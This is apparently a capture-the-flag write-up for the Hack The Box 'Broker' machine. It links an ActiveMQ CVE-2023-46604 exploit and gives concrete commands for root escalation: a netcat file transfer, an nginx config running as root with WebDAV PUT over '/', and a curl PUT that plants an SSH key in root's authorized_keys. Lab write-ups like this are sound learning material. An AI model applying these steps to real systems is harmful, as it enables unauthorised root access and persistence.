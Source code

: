 ## Broker box on htb

### Useful tools:
https://www.revshells.com/

### Obtaining user flag
https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell
https://www.prio-n.com/blog/cve-2023-46604-attacking-defending-ActiveMQ

Once exploit delivered, just `cat /home/activemq/user.txt`

### Obtaining root flag
Used nginx which user had access to to start nginx server and allow PUT with WebDav

To open up a stream from local to remote with reverse shell:
```shell
# on remote
nc -l -p 1234 > nginx.conf`

# on host
nc -w 3 broker.htb 1234 < nginx.conf
```

Custom config:

```json
# nginx.conf
user root;
events {
    worker_connections 512;
}
http {
  server {
    dav_methods PUT DELETE MKCOL COPY MOVE;
    listen 9005;
    root /;
    autoindex on;
  }
}
```

Start nginx server with custom config:
`sudo nginx -c $(realpath nginx.conf)`


## With nginx webdav method to put files:
`curl -X PUT -d "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIErzi80YYVjGdDF0K4f29cvtK3MTLy87WUNOXr6W5U3Y parallels@kali-gnu-linux-2023.2" http://broker.htb:9000/root/.ssh/authorized_keys`

Used local ssh key to transfer to box with nginx server running int othe root authorized keys.
